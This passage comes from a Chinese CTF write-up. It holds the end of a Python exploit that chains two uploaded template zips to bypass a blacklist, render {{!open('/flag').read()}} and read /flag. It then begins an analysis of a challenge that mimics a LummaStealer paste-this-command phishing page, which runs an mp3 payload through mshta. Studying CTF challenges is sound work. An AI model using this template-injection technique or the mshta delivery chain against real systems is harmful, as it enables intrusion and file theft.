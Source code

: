 ```python title="solve.py"
    buf = io.BytesIO()
    with zipfile.ZipFile(buf, "w", compression=zipfile.ZIP_DEFLATED) as z:
        z.writestr(name, content)
    return buf.getvalue()

def main():
    # 1) A 包：上传 evil.tpl（真正的读文件逻辑在这里）
    evil = "{{!open('/flag').read()}}\n"
    zA = build_zip_single("evil.tpl", evil)
    md5_A, respA = upload_zip(zA)
    print("[*] 第一次上传 md5_A =", md5_A)

    # 2) B 包：上传 driver.tpl（只做 include，绕过黑名单）
    driver = f"% include('uploads/{md5_A}/evil.tpl')\n"
    zB = build_zip_single("driver.tpl", driver)
    md5_B, respB = upload_zip(zB)
    print("[*] 第二次上传 md5_B =", md5_B)

    # 3) 访问 B 包入口模板，触发 include -> 执行 evil.tpl -> 输出 /flag
    url = f"{BASE}/view/{md5_B}/driver.tpl"
    print("[*] 访问：", url)
    r = requests.get(url, timeout=10)
    r.raise_for_status()
    print("\n==== /flag 内容（渲染结果） ====\n")
    print(r.text)

if __name__ == "__main__":
    main()
```

## Reverse
### 1'M no7 A rO6oT

题目靶机仿了之前很火的投递#LummaStealer的钓鱼网站，让你粘贴运行的命令行其实是下载了个mp3然后调用mshta执行。

> 这个mp3的封面图右下角似乎有些像素被破坏了，刚上手的时候在这里研究了好一阵子

这个mp3既能被播放也能被执行的原因我猜是其中被HTAxxxx标记的一部分，可能在mshta看来这玩意儿就像shell里的Shebang。不过总之它能执行就对了。所以，让我们无脑相信牢然写的东西一定无害，在Windows设备上直接执行！~~然后它被我设备上的ESET杀掉了~~

嘛，那就放在云沙箱用mshta手动执行一下：
